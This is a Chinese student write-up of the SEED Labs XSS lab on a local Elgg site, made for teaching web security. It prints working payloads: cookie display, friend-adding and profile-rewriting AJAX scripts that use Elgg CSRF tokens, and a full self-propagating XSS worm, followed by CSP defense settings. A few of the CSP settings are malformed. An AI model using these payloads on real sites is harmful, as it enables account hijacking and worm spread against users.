本文为 [SEED Labs 2.0 - Cross-Site Scripting Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/) 的实验记录。

## 实验原理

跨站脚本攻击是指恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。xss 漏洞通常是通过 php 的输出函数将 javascript 代码输出到 html 页面中，通过用户本地浏览器执行的，所以 xss 漏洞关键就是寻找参数未过滤的输出函数。

## Task 1: Posting a Malicious Message to Display an Alert Window

这个 Task 用来熟悉 js 脚本。登录 Samy 账号，修改 profile 如图所示

```html
<script>
    alert('XSS');
</script>
```



保存后，看到已经生效



## Task 2: Posting a Malicious Message to Display Cookies

这个 Task 用来熟悉如何获取 Cookie。修改 Samy 的 profile 如图所示

```html
<script>
    alert(document.cookie);
</script>
```



保存后，看到已经生效



## Task 3: Stealing Cookies from the Victim’s Machine

这个 Task 用来熟悉如何发回数据。修改 Samy 的 profile 如图所示

```html
<script>
    document.write('');
</script>
```



在端口上开启监听

```shell
nc -lknv 5555
```

登录 Alice 账号，点进 Samy 的 profile，看到返回了 cookie



## Task 4: Becoming the Victim’s Friend

这个 Task 利用 js 实现 GET 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" +
            ts + token;
        
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```



登录 Alice 账号，点进 Samy 的 profile，看到已经添加了好友



> **Question 1**: Explain the purpose of Lines 5 and 6, why are they are needed?

`ts` 和 `token` 用来验证用户身份，获取它们形成完整的 GET 请求，达到欺骗服务器的目的。

> **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, *i.e.*, you cannot switch to the Text mode, can you still launch a successful attack?

此时在 description 处无法实施攻击。但可以压行后填写在 briefdescription 处。

## Task 5: Modifying the Victim’s Profile

这个 Task 利用 js 实现 POST 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=samy%20is%20my%20hero&accesslevel[description]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```



登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了



> **Question 3**: Why do we need Line 14? Remove this line, and repeat your attack. Report and explain your observation.

这行用来判断当前用户是不是攻击者自身，如果是，就不进行攻击。如果去掉这行代码，会导致攻击者保存自己的 profile 后，description 立即被改变，无法实施攻击。

## Task 6: Writing a Self-Propagating XSS Worm

这个 Task 实现脚本自身的复制传播。

### Link Approach

只要让代码调用自己网站的 js，再把刚刚的代码放入自己网站的 js 中即可。它和下面 DOM 原理一模一样，没啥区别。这里我找来找去没找到实验提供的站点来放 js，所以就先跳过。:(

### DOM Approach

编辑 Samy 的 profile，使其可以把自己赋值到别人的 profile 中

```html
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=" + wormCode + "&accesslevel[description]=2" + 
            "&briefdescription=samy%20is%20my%20hero&accesslevel[briefdescription]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```



登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了



登录 Charlie 账号，查看 Alice 的 profile，看到自己的 profile 已经被修改了



## Task 7: Defeating XSS Attacks Using CSP

这个 Task 探究 CSP 防御 XSS 的作用。原始状态为







修改 apache_csp.conf

```xml
## Purpose: Setting CSP policies in Apache configuration
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
            default-src 'self'; \
            script-src 'self' *.example60.com \
            script-src 'self' *.example70.com \
        "
</VirtualHost>
```


看到 [example32b.com](http://www.example32b.com) 的 4、5、6 变成了 OK



修改 phpindex.php

```php
<?php
    $cspheader = "Content-Security-Policy:".
                 "default-src 'self';".
                 "script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' *.example60.com *.example70.com".
    header($cspheader);
?>
    
<?php include 'index.html';?>
```


看到 [example32c.com](http://www.example32c.com) 的 1、2、4、5、6 变成了 OK



> Please explain why CSP can help prevent Cross-Site Scripting attacks.

显然的，CSP 就是**白名单**制度，明确告诉客户端，哪些外部资源可以加载和执行。

## 实验总结

实验原理简单，操作也很简单，注意不要输入错了就行（我因为一个大小写输错了卡了好久）。
